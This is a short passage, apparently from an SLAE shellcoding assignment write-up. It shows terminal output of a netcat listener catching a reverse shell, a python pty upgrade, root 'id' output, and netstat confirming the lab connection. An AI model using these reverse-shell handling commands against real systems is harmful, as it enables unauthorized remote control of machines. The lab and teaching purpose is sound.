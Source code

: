 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
~ nc -nlv 1234 
python -c 'import pty; pty.spawn("/bin/bash")' 
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># id
id
uid=0(root) gid=0(root) groups=0(root) 
root@slae:~/Documents/SLAE/Assignment2# netstat -antp | grep 1234
netstat -antp | grep 1234
tcp 0 0 192.168.200.13:50914 192.168.200.4:1234 ESTABLISHED 812/s
</pre>

